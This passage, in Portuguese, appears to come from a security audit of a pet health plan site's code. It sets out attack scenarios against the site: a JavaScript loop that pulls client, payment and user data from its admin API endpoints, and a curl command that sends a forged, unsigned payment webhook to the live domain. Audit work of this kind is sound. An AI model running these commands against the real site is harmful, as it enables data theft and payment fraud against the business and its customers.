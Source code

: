3. **Escalação:**
   ```javascript
   // Script para exfiltrar todos os dados
   const endpoints = [
     '/admin/api/clients',
     '/admin/api/pets', 
     '/admin/api/contracts',
     '/admin/api/payments',
     '/admin/api/network-units',
     '/admin/api/users'
   ];
   
   for (const endpoint of endpoints) {
     const data = await fetch(`https://unipetplan.com.br${endpoint}`);
     console.log(await data.json());
   }
   ```

**Impacto Financeiro:**
- 💰 Acesso a TODOS os dados de clientes (LGPD)
- 💰 Acesso a dados de pagamento (PCI-DSS)
- 💰 Capacidade de modificar/deletar qualquer registro
- 💰 Multa LGPD: até R$ 50 milhões
- 💰 Perda de confiança: clientes abandonam serviço

---

### 💳 ATAQUE 2: Manipulação de Webhook de Pagamento

**Vetor de Ataque:** Forjar notificações de pagamento sem validação  
**Arquivo:** `server/services/cielo-webhook-service.ts` + `server/config.ts`  
**Severidade:** CRÍTICA 🔴

#### Como o Hacker Exploraria:

**Cenário - CIELO_WEBHOOK_SECRET Não Configurado:**

O código **PERMITE** deploy em produção sem o secret (linha 204 de config.ts):
```typescript
console.warn('🚨 AVISO: Webhook security desabilitado temporariamente para deploy');
// ← NÃO LANÇA ERRO, APENAS WARNING
```

**Passo a Passo do Ataque:**

1. **Reconhecimento:**
   ```bash
   # Tentar enviar webhook sem assinatura
   curl -X POST https://unipetplan.com.br/api/webhooks/cielo \
     -H "Content-Type: application/json" \
     -d '{
       "PaymentId": "test-12345",
       "ChangeType": 1
     }'
   
   # Se responder 401 "Assinatura inválida" → protegido
   # Se processar → VULNERÁVEL!
   ```
